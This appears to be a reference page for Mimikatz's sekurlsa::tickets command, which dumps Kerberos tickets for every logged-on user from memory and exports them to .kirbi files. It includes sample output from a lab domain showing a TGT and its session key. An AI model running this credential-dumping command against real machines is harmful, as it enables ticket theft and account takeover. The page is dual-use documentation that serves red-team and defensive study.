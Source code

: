 # tickets

`prisekurlsa::tickets` lists Kerberos tickets belonging to all authenticated users on the target server/workstation. Unlike [`kerberos::list`](../process/list.md), sekurlsa uses memory reading and is not subject to key export restrictions. Sekurlsa can also access tickets of others sessions (users). It has the following command line argument:

* `/export`: tickets are exported in `.kirbi` files. They start with user's LUID and group number (0 = TGS, 1 = client ticket(?) and 2 = TGT). The tickets are saved in the current directory.

{% hint style="warning" %}
This command requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # sekurlsa::tickets

Authentication Id : 0 ; 697146 (00000000:000aa33a)
Session           : Service from 0
User Name         : MediaAdmin$
Domain            : hacklab
Logon Server      : DC
Logon Time        : 10/17/2021 4:22:01 AM
SID               : S-1-5-21-2725560159-1428537199-2260736313-1427

         * Username : MediaAdmin$
         * Domain   : HACKLAB.LOCAL
         * Password : (null)

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 10/17/2021 4:22:01 AM ; 10/17/2021 2:22:01 PM ; 10/24/2021 4:22:01 AM
           Service Name (02) : krbtgt ; HACKLAB.LOCAL ; @ HACKLAB.LOCAL
           Target Name  (02) : krbtgt ; hacklab.local ; @ HACKLAB.LOCAL
           Client Name  (01) : MediaAdmin$ ; @ HACKLAB.LOCAL ( hacklab.local )
           Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             1351322f734539c08a78792f642fc4fd4ff8aea1fe3b4a0edf83778b5ed878e9
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
```
